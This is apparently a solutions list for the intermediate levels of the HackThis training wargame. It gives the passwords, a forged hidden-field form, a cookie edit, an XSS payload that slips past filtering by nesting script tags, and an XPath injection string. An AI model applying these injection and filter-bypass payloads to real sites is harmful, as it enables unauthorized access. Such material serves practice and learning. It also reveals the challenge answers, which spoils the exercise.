 ### Intermediate Level 1
```
https://www.hackthis.co.uk/levels/intermediate/1?password=flubergump
```


### Intermediate Level 2
```
<form method="POST" action="https://www.hackthis.co.uk/levels/intermediate/2">
<input type="hidden" name="password" value="flubergump" />
<input type="submit"  value="let me pass" />
</form>
```


### Intermediate Level 3
cookie => restricted_login = true


### Intermediate Level 4
```
<<script>script>alert('HackThis!!');</</script>script>
```


### Intermediate Level 5
```
admin\n
admin\n
```


### Intermediate Level 6
XPath Injection
```
' or realname/text()='Sandra Murphy' or '1'='1
```